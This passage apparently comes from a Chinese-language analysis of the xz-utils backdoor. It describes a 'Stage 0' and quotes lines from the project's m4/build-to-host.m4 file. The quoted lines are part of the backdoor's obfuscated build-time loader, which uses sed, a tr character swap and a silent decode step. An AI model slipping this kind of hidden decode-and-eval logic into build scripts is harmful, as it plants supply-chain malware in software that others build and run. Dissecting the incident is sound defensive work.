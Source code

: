 详细展开下上述内容，将Stage 1 前的部分，暂时称为 Stage 0。

目前 GitHub 已经关停了整个 xz项目，但可以从 [备份仓库](https://github.com/thesamesam/xz-archive) 进行下载分析。

### Stage 0

从[m4/build-to-host.m4](https://salsa.debian.org/debian/xz-utils/-/blob/46cb28adbbfb8f50a10704c1b86f107d077878e6/m4/build-to-host.m4)文件开始。以下是相关代码片段：

```sh
...
gl_[$1]_config=&#39;sed \&#34;r\n\&#34; $gl_am_configmake | eval $gl_path_map | $gl_[$1]_prefix -d 2&gt;/dev/null&#39;
...
gl_path_map=&#39;tr &#34;\t \-_&#34; &#34; \t_\-&#34;&#39;
...
```

![image-20240406005935000](resource/xz库恶意后门植入事件.assets/image-20240406005935000.png)
